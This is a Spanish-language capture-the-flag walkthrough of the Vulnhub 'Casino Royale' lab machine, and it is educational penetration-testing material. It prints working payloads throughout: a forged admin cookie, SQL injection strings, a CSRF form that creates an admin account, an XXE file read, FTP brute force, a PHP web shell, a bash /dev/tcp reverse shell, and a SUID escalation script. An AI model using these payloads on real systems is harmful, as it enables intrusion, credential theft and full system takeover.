








# Casino Royale - Vulnhub



## Reconocimiento

Vamos a hacer un barrido de la red para encontrar la dirección IP de la máquina objetivo.

```bash
sudo arp-scan -I ens33 --localnet --ignoredups

192.168.0.37	00:0c:29:e1:f4:3e	VMware, Inc.
```

Usando una utilidad llamada `whichSystem.py` podemos determinar el sistema operativo que está corriendo en la máquina objetivo al comprobar el TTL (Time To Live).

```bash
whichSystem.py 192.168.0.37

192.168.0.37 (ttl -> 64): Linux
```

Tras esto vamos a hacer un escaneo de puertos con nmap para ver qué servicios están corriendo en la máquina objetivo.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.0.37 -oG allPorts

PORT     STATE SERVICE         REASON
21/tcp   open  ftp             syn-ack ttl 64
25/tcp   open  smtp            syn-ack ttl 64
80/tcp   open  http            syn-ack ttl 64
8081/tcp open  blackice-icecap syn-ack ttl 64
```

Vamos a realizar un escaneo más detallado de los puertos abiertos para obtener más información sobre los servicios que están corriendo.

```bash
nmap -sCV -p21,25,80,8081 192.168.0.37

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
25/tcp   open  smtp?
|_smtp-commands: casino.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
| fingerprint-strings: 
|   Hello: 
|     220 Mail Server - NO UNAUTHORIZED ACCESS ALLOWED Pls.
|_    Syntax: EHLO hostname
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 2 disallowed entries 
|_/cards /kboard
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.25 (Debian)
8081/tcp open  http    PHP cli server 5.5 or later
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

Al entrar en http://192.168.0.37:80/ vemos una web en la que se ,uestra una escena de una película de James Bond.

Sin embargo, en http://192.168.0.37:8081/ vemos una web con el fondo rojo y un botón que dice "Run Data Collect"
Si le damos nos lleva a http://192.168.0.37:8081/collect.php? y no no lista nada: Collection Application put on hold due to lack of funds::::::::::: 

Vamos a ver que tecnologías están corriendo las webs:

```bash
whatweb 'http://192.168.0.37:8081/'
http://192.168.0.37:8081/ [200 OK] Country[RESERVED][ZZ], IP[192.168.0.37]

whatweb 'http://192.168.0.37:80/'
http://192.168.0.37:80/ [200 OK] Apache[2.4.25], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[192.168.0.37], Script
```

Nos damos cuenta que el ftp está corriendo vsftpd 2.0.8 o posterior, que es vulnerable a una vulnerabilidad conocida como Backdoor Command Execution

```bash
searchsploit vsftpd

vsftpd 2.3.4 - Backdoor Command Execution  | unix/remote/49757.py
```

Vamos a hacer un reconocimiento de todo slos directorios de la web con gobuster para ver si encontramos algo interesante.

```bash
gobuster dir -u 'http://192.168.0.37' -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20

/includes             (Status: 301) [Size: 315] [--> http://192.168.0.37/includes/]
/install              (Status: 301) [Size: 314] [--> http://192.168.0.37/install/]
/javascript           (Status: 301) [Size: 317] [--> http://192.168.0.37/javascript/]
/cards                (Status: 301) [Size: 312] [--> http://192.168.0.37/cards/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://192.168.0.37/phpmyadmin/]
/server-status        (Status: 403) [Size: 300]
```
```bash
nmap --script http-enum -p80,8081 192.168.0.37

PORT     STATE SERVICE
80/tcp   open  http
| http-enum: 
|   /robots.txt: Robots file
|   /phpmyadmin/: phpMyAdmin
|   /cards/: Potentially interesting folder
|   /includes/: Potentially interesting folder
|_  /install/: Potentially interesting folder
8081/tcp open  blackice-icecap
```

---

En http://192.168.0.37/cards/ vemos otra escena de la película.


---

En http://192.168.0.37/install/ vemos una instalación de una tabla de base de datos.



Al darle a instalar nos sale un error:

```
 PokerMax Poker League Installation


Unable to create the Admin League Settings table in "pokerleague".

Error: Table 'pokermax_admin' already exists
```

---

http://192.168.0.37/includes/ No contiene nada, página en blanco.

---

http://192.168.0.37/robots.txt Contiene lo siguiente:

```
User-agent: *
Disallow: /cards
Disallow: /kboard
```

---

http://192.168.0.37/phpmyadmin/ Tiene un login de phpmyadmin, pero no tenemos credenciales para entrar.



---

http://192.168.0.37/kboard/ Misma escena que en /cards, pero en blanco y negro.

---

Si nos damos cuenta, el servicio http está en versión Apache httpd 2.4.25 ((Debian)) y si buscamos en https://launchpad.net/debian/+source/apache2/2.4.25-3+deb9u1 vemos que es un Debian Stretch.

Vemos que pokermax es una aplicación web construida con PHP y utiliza una base de datos MySQL, al buscarla en searchsploit vemos esto:

```bash
searchsploit pokermax

PokerMax Poker League 0.13 - Insecure Cookie Handling | php/webapps/6766.txt
```

Y si leemos el texto vemos lo siguiente:

```
Author : DaRkLiFe
Greetz : str0ke & S.W.A.T. & funkys0ul

Exploit :

javascript:document.cookie = "ValidUserAdmin=admin";

**here "admin" refers to username of administrator on site

default username is "admin" given after installation of site

but if it is changed u can easily find out username of admin and then
substitute it in place of "admin"

Instructions :

Find the site running on this script .

Go to http://site.com/pokerleague/pokeradmin/configure.php

It will ask for login. Now in url tab run the exploit command

Then return back to http://site.com/pokerleague/pokeradmin/configure.php

Now u should be loggedin as admin and change the thing into what you want .
```

Por lo que vamos a buscar la url de configure.php y vemos que está en http://192.168.0.37/pokeradmin/configure.php



Vemos un panel de autenticación, y si ejecutamos el exploit en CTRL+SHIFT+I > console y pegamos el siguiente código:

```
javascript:document.cookie = "ValidUserAdmin=admin";
```

Y si ahora vamos a configure.php vemos que nos ha dejado entrar sin necesidad de credenciales.



Vemos que la contraseña era ``raise12million`` y el usuario ``admin``.

Tambien podríamos haber probado una inyección SQL en el loggin:

```
username: admin' or 1=1-- -
password: algo
```

Vamos a enumerar la base de datos mediante burpsuite.

Campturamos la petición de login y vamos probando:

Original:
```bash
op=adminlogin&username=admin&password=a
```

Comilla en el campo username:
```bash
op=adminlogin&username=admin'&password=a
```
No sale ningún error.

```bash
op=adminlogin&username=admin' or 1=1-- -&password=a
```
Nos loggea y además vemos esto:
```
Set-Cookie: ValidUserAdmin=admin%27+or+1%3D1--+-;
```
Que es la propia cookie que nos deja entrar sin necesidad de credenciales., en este caso, la inyección.

```bash
op=adminlogin&username=admin' order by 100-- -&password=a
```
No nos sale nada, bajamos y vamos probando hasta que nos sale un error en order by 8 por lo que la base de datos tiene 7 tablas.

```bash
op=adminlogin&username=admin' union select 1,2,3,4,5,6,7-- -&password=a
```
No vemos ningún numero

```bash
op=adminlogin&username=admin' or '1'='1&password=a
op=adminlogin&username=admin' or '1'='2&password=a
```
Y sigue sin mostrarnos nada.

```bash
op=adminlogin&username=admin' and sleep(5)-- -&password=a
```
Se cumple que a los 5 segundos nos loggea, por lo que la inyección basada en tiempo.

Podríamos hacer un script para enumerar las tablas, pero vamos a hacer un dump de la base de datos con sqlmap.

```bash
sqlmap -u "http://192.168.0.37/pokeradmin/index.php" --dbs --batch --forms

available databases [6]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] pokerleague
[*] vip
```

```bash
sqlmap -u "http://192.168.0.37/pokeradmin/index.php" -D pokerleague --tables --batch --forms

Database: pokerleague
[4 tables]
+----------------------+
| pokermax_admin       |
| pokermax_players     |
| pokermax_scores      |
| pokermax_tournaments |
+----------------------+
```

```bash
sqlmap -u "http://192.168.0.37/pokeradmin/index.php" -D pokerleague -T pokermax_admin --columns --batch --forms

Database: pokerleague
Table: pokermax_admin

[3 columns]
+------------------+
| id               |
| username         |
| password         |
+------------------+
```

Va muy lento por ser una inyección basada en tiempo, pero al final nos saca el dump de todo.
```bash
sqlmap -u "http://192.168.0.37/pokeradmin/index.php" -D pokerleague -T pokermax_admin -C id,username,password --dump --batch --forms

Database: pokerleague
Table: pokermax_admin
[1 entry]
+----+----------+----------------+
| id | username | password       |
+----+----------+----------------+
| 1  | admin    | raise12million |
+----+----------+----------------+
```

Ahora volvemos a loggearnos con estas credenciales, le hemos entrado de 2 formas distintas, con la cookie y con la inyección SQL.

Si le damos al apartado "Manage Players" vemos que solo hay 1 jugador con email, nos metemos y nos da la siguiente información:

```
Valenka

Project Manager of various client projects on: /vip-client-portfolios/?uri=blog

We are casino-royale.local -- Update your hosts file!
```

Vemos que tenemos que editar nuestro /etc/hosts y añadir la siguiente línea:

```
192.168.0.37 casino-royale.local
```

Y nos metemos a la url: http://192.168.0.37//vip-client-portfolios/?uri=blog



Al analizar la página nos llama la atención este mensaje:

```
Send an email to our CMS admin: valenka@casino-royale.local

Make sure to reference a known customer or at least someone we know in the subject line, otherwise the email will be deleted without being looked at.

Valenka checks her email often as well as manages this site.

Include any links to relevant information such as references, services, referrals, etc.
```

Como vimos antes hay un servicio de correo corriendo en el puerto 25, por lo que vamos a intentar conectarnos con telnet:

```bash
telnet 192.168.0.37 25

Trying 192.168.0.37...
Connected to 192.168.0.37.
Escape character is '^]'.
220 Mail Server - NO UNAUTHORIZED ACCESS ALLOWED Pls.
```

El mensaje nos dice que no se permite el acceso no autorizado, por lo que vamos a intentar enviar un correo electrónico a valenka:

```bash
MAIL FROM: hola@hola.com   
250 2.1.0 Ok
RCPT TO: valenka
250 2.1.5 Ok
```

A veces los servidores SMTP dejan el envío de correos sin autenticación o verificación del correo porque SMTP no siempre verifica el remitente y se permiten correos falsificados. En este caso, el servidor SMTP parece aceptar el correo sin problemas.

```bash
data
354 End data with <CR><LF>.<CR><LF>
subject: obanno

Prueba: http://192.168.0.19/test.html

.
250 2.0.0 Ok: queued as 5634D45B2
```

Nos montamos un servidor con python para ver si valenka entra en el enlace que le hemos enviado:

```bash
sudo python3 -m http.server 80
```

Vemos que sí que entra en el enlace, por lo que podríamos crear un payload para que se acontezca un CSRF.

Vemos que la página es Snowfox CMS, por lo que vamos a buscar exploits para esta aplicación web:

```bash
searchsploit snowfox

Snowfox CMS 1.0 - Cross-Site Request Forgery (Add Admin) | php/webapps/35301.html

searchsploit -x php/webapps/35301.html
```

Creamos un fichero llamado `csrf.html` con el siguiente contenido:

```html
<html>
  <body>
    <form action="http://casino-royale.local/vip-client-portfolios/?uri=admin/accounts/create" method="POST">
      <input type="hidden" name="emailAddress" value="hola@hola.com" />
      <input type="hidden" name="verifiedEmail" value="verified" />
      <input type="hidden" name="username" value="hola" />
      <input type="hidden" name="newPassword" value="hola123" />
      <input type="hidden" name="confirmPassword" value="hola123" />
      <input type="hidden" name="userGroups[]" value="34" />
      <input type="hidden" name="userGroups[]" value="33" />
      <input type="hidden" name="memo" value="CSRFmemo" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="formAction" value="submit" />
      <input type="submit" value="Submit form" />
    </form>
  </body>
</html>
```

Repetimos el proceso de mandarle el correo a valenka con el enlace a nuestro `csrf.html` y vemos que entra en el enlace, por lo que se ha creado un nuevo usuario con privilegios de administrador.

Entramos y vemos que tenemos un panel de administración donde podemos, por ejemplo, manejar usuarios, etc.



El usuario `le` tiene unMemo que dice: "I primarily deal with the numbers, along with our most Elite customers with access to /ultra-access-view/main.php"

Entramos en http://casino-royale.local/ultra-access-view/main.php y vemos una bienvenida:


Al ver el código fuente vemos 2 pistas:

```html
<!--FYI this is taking POST requests without a front end for the time being..
Try using curl to POST Xml commands or Xml script files herE!   

PHP code below...
 
    libxml_disable_entity_loader (false); 
    
    $xmlfile = file_get_contents('php://input'); 
    
    $dom = new DOMDocument(); 
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom); 
    $user = $creds->customer; 
    $pass = $creds->password; 
    echo "Welcome $user !";
-->
```

```html
<!--also pls update the password for the custom ftp acct once the front end is finished..since it's easy -->
```

Vemos que nos está diciendo que podemos enviarle un XML, por lo que podemos intentar una inyección de XML (XXE), para ello, llevamos la petición GET a burpsuite y la cambiamos por POST y le añadimos el siguiente XML:

```xml
<creds>
    <customer>hola</customer>
    <password>hola123</password>
</creds>
```


Vemos que sí nos lo interpreta, por lo que ahora vamos a intentar hacer una inyección de XML (XXE) para leer el fichero /etc/passwd

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<creds>
    <customer>&xxe;</customer>
    <password>hola123</password>
</creds>
```



Vemos que nos devuelve el contenido del fichero /etc/passwd, por lo que podemos leer cualquier fichero del sistema.

Muy interesante el usuario:

```
ftpUserULTRA:x:1002:1002::/var/www/html/ultra-access-view:/bin/bash!
```

Porque indica que es un potencial usuario para el ftp, y además nos da la ruta de su home, por lo que podemos intentar conectarnos con ftp a la máquina objetivo mediante el usuario `ftpUserULTRA` y fuerza bruta con hydra para obtener la contraseña.

```bash
hydra -l ftpUserULTRA -P /usr/share/wordlists/rockyou.txt ftp://192.168.0.37 -t 20

[21][ftp] host: 192.168.0.37 user: ftpUserULTRA password: bankbank
```

Nos conectamos con ftp y subimos un fichero llamado `cmd.php` con el siguiente contenido:

```php
<?php
  system($_GET['cmd']);
?>
```

Si intentamos subir el archivo con extensión nos da un 550 Permission denied, por lo que vamos a renombrarlo a `cmd` y lo subimos.

Sin embargo a la hora de hacer un `rename cmd cmd.php` nos da un 550 Permission denied, por lo que vamos a renombrarlo a `cmd.php3` y sí nos deja

Le hacemos un ``chmod 644 cmd.php3`` y ahora sí que podemos ejecutar comandos en la máquina objetivo.

```
http://casino-royale.local/ultra-access-view/cmd2.php3?cmd=whoami

www-data
```

Vamos a intentar hacer un reverse shell, para ello, nos montamos un listener en nuestro equipo:

```bash
nc -nlvp 443
```

http://casino-royale.local/ultra-access-view/cmd2.php3?cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.0.19/443 0>%261'

Y lo logramos.

Hacemos un tratamiento de la TTY:

```bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 cols 184
```

## Escalada de privilegios

Intentamos lo siguiente sin éxito:

```bash
id
sudo -l
find / -perm -4000 2>/dev/null
```

Es normal buscar en ficheros de configuración para ver si encontramos credenciales, por lo que vamos a buscar ficheros que contengan la palabra "config" y veamos si encontramos algo interesante.

```bash
find -name \*config\* 2>/dev/null -exec cat {} \; | less -S
```

Este comando nos busca todos los ficheros que contengan la palabra "config" y nos muestra su contenido, encontramos algo interesante:

self::$cfg['dbUser'] = 'valenka';
self::$cfg['dbPass'] = '11archives11!';

```bash
su valenka
valenka@casino:/var/www/html$ 
```

Esto fue un user pivoting.

```bash
valenka@casino:~$ cat .bash_history 
ls
crontab
crontab -e
clear
ls
exit
```

Vemos que ha editado el crontab, por lo que vamos a ver si hay algún cron corriendo:

```bash
crontab -l
no crontab for valenka

systemctl list-timers --all

NEXT                         LEFT          LAST                         PASSED       UNIT                         ACTIVATES
Thu 2026-06-25 19:39:00 EDT  23min left    Thu 2026-06-25 19:09:15 EDT  6min ago     phpsessionclean.timer        phpsessionclean.service
Thu 2026-06-25 20:03:13 EDT  47min left    Thu 2026-06-25 19:05:15 EDT  10min ago    anacron.timer                anacron.service
Thu 2026-06-25 20:49:21 EDT  1h 33min left Thu 2026-06-25 17:56:29 EDT  1h 19min ago apt-daily.timer              apt-daily.service
Fri 2026-06-26 06:47:41 EDT  11h left      Thu 2026-06-25 17:56:29 EDT  1h 19min ago apt-daily-upgrade.timer      apt-daily-upgrade.service
Fri 2026-06-26 16:11:28 EDT  20h left      Thu 2026-06-25 16:11:28 EDT  3h 4min ago  systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service
```

No hay ningún cron interesante, por lo que vamos a buscar ficheros con permisos SUID:

```bash
cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 9 (stretch)"

find / -perm -4000 2>/dev/null
/opt/casino-royale/mi6_detect_test

/opt/casino-royale/mi6_detect_test
/bin/bash: run.sh: No such file or directory
```

Vemos que hay un binario llamado `mi6_detect_test` que tiene permisos SUID, por lo que vamos a ejecutarlo y nos dice que no encuentra el fichero `run.sh`, por lo que vamos a crear uno.

```bash
touch run.sh
chmod +x run.sh
/opt/casino-royale/mi6_detect_test

nano run.sh
```

Ene el fichero `run.sh` escribimos lo siguiente:

```bash
#!/bin/bash

bash -p
```

Conseguimos ejecutar el binario `mi6_detect_test` y nos da una shell con privilegios de root.

```bash
root@casino:~# whoami
root
root@casino:~# id
uid=0(root) gid=1001(valenka) groups=1001(valenka)

root@casino:/root/flag# cat flag.sh 
#!/bin/bash
#
# Congrats!! Run this script for the flag!!
#
echo "--------------------------------------------"
echo "--------------------------------------------"
echo "Go here:   http://casino-royale.local:8082"
echo "--------------------------------------------"
echo "--------------------------------------------"
cd /root/flag/;php -S 0.0.0.0:8082

php -S0.0.0.0:8082
```

Vamos a la url http://casino-royale.local:8082/

```

Flag: CAPTURED

Congrats!!! You Captured the Flag and finally got root!!!


                              ___________
                 ____________)%%%%%%%%%%/
                /%%%%%%%%%%%/%07%%%%%%%/
               /0%%%%%%%%%/%/%%%%%%%%%/
              /%%\% _---_%/\/%%%%%%%%/
             /%%%%\/     /)|%%%%%%%%/
            /%%%%%|()  (/ /%%%%%%%%/
           /%%%%%%%\ + /7%%%\%%%%%/
          /%%%%%%%/%00/_/%%%%\%%%/
         /%%%%%%%/%%\/%%%%%%%07/
        /%%%%%%0%%%/%%%%%%%%%%/
       /%%%%%%%%%%%/
      /
     /
    /
   /

```

## Conclusión

Hemos conseguido rootear la máquina objetivo, hemos aprendido a hacer un reconocimiento de la red, escaneo de puertos, enumeración de servicios, explotación de vulnerabilidades conocidas, inyección SQL, inyección XML (XXE), CSRF y escalada de privilegios mediante SUID.